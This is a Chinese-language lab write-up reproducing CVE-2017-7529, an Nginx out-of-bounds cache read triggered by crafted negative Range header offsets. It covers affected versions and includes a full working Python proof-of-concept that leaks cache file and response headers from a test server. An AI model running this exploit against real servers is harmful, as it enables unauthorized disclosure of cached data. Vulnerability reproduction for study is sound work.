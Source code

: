 # Nginx越界读取缓存漏洞（CVE-2017-7529）

###### by ADummy

### 0x00利用路线

​			POC验证--->读取到缓存文件中位于“http返回包体”前的“文件头”、“http返回包头”等内容

### 0x01漏洞介绍

​				Nginx在反向代理站点的时候，通常会将一些文件进行缓存，特别是静态文件。缓存的部分存储在文件中，每个缓存文件包括“文件头”+“HTTP返回包头”+“HTTP返回包体”。如果二次请求命中了该缓存文件，则Nginx会直接将该文件中的“HTTP返回包体”返回给用户。

如果我的请求中包含Range头，Nginx将会根据我指定的start和end位置，返回指定长度的内容。而如果我构造了两个负的位置，如(-600, -9223372036854774591)，将可能读取到负位置的数据。如果这次请求又命中了缓存文件，则可能就可以读取到缓存文件中位于“HTTP返回包体”前的“文件头”、“HTTP返回包头”等内容。

##### 影响版本

```
Nginx  0.5.6 - 1.13.2
修复版本 1.13.3 1.12.1
```

### 0x02漏洞复现

访问`http://your-ip:8080/`，即可查看到Nginx默认页面，这个页面实际上是反向代理的8081端口的内容。

调用`python3 poc.py http://your-ip:8080/`，读取返回结果：

#### poc

```
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) < 2:
    print("%s url" % (sys.argv[0]))
    print("eg: python %s http://your-ip:8080/" % (sys.argv[0]))
    sys.exit()

headers = {
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
}
offset = 605
url = sys.argv[1]
file_len = len(requests.get(url, headers=headers).content)
n = file_len + offset
headers['Range'] = "bytes=-%d,-%d" % (
    n, 0x8000000000000000 - n)

r = requests.get(url, headers=headers)
print(r.text)
```

![Nginx越界读取缓存漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Nginx越界读取缓存漏洞_1.jpg)



![Nginx越界读取缓存漏洞_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Nginx越界读取缓存漏洞_2.jpg)



### 0x03参考资料

https://cert.360.cn/warning/detail?id=b879782fbad4a7f773b6c18490d67ac7